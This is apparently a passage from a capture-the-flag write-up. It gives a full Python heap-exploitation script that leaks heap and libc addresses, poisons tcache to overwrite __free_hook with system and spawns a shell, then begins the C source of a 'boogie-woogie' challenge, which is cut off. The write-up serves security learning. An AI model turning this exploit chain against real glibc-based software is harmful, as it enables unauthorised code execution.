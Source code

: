 ```python
str_(0, b'a')
tok(0, b'\0')
heap = u64(io.recv(6)+b'\0\0') -  0x260
del_(0)
print(hex(heap))

str_(0x4f8, b'A')
str_(0x20, b'A')
del_(0)
str_(0x4f8, b'\x60')
tok(0, b'\0')
libc.address = u64(io.recv(6)+b'\0\0') - 0x3ebc60
print(hex(libc.address))
# del_(0)

str_(0x38, p64(0)+p64(0x60)+p64(heap+0x7d0)*2) # 2
str_(0x28, b'A'*0x28) # 3
str_(0xf8, b'B') # 4
tok(3, b'\x01')
del_(3)
str_(0x28, b'A'*0x20+p64(0x60)) # 3

for i in range(7):
    str_(0xf8, str(i).encode()) # 5 -> 12
str_(0x68, b'C') # 13
for i in range(7):
    del_(i+5)
    
del_(4) 
str_(0x158, b'test') 
del_(4)
del_(3)
str_(0x158, b'test'*10+p64(0x30)+p64(libc.sym.__free_hook)) 
str_(0x28, b'a') 
str_(0x28, p64(libc.sym.system))  
str_(0x100, b'/bin/sh')
del_(6)

io.interactive()

```

# Pwn - boogie-woogie

## Source code overview

```c
#include <stddef.h>
#include <stdint.h>
#include <stdio.h>
#include <stdbool.h>
#include <dlfcn.h>

// generate art.h with echo "const unsigned char __art[] = {$((ascii-image-converter ./aoi-todo.webp  --color --dither --braille --width 80; echo -ne "\x00") | xxd -i)};" > art.h
#include "art.h"

char data[] = {"Listen closely, cursed spirit. There is no way you do not know this. An arm is\nmerely a decoration. The act of applause is an acclamation of the soul!"};

void clap(size_t a, size_t b)
{
```
